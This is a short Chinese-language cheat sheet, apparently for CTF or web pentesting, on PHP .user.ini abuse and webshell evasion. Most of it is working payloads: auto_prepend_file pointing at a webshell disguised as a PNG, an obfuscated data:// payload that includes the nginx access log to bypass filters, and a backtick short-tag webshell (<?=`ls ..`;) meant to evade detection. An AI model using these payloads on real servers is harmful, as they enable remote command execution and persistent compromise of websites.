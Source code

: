 1. .user.ini利用技巧
auto_prepend_file = webshell.png
auto_prepend_file可以指定解析非php文件
auto_prepend_file='data://text/plain,<?=$lo="lo"?><?=$g="g"?><?=$a=""|","?><?=include"/var/$lo$g/nginx/access$a$lo$g"?>'
auto_prepend_file还可以直接使用php的各类伪协议，如直接使用data伪协议命令执行，上述payload的|运算是用%02|,来构造.号，绕过过滤

1. webshell免杀
通常短标签加反引号执行就能绕过
<?=`ls ..`;
过滤的特别严格可以考虑使用.user.ini的日志文件包含来绕过，但当前目录下需要有index.php文件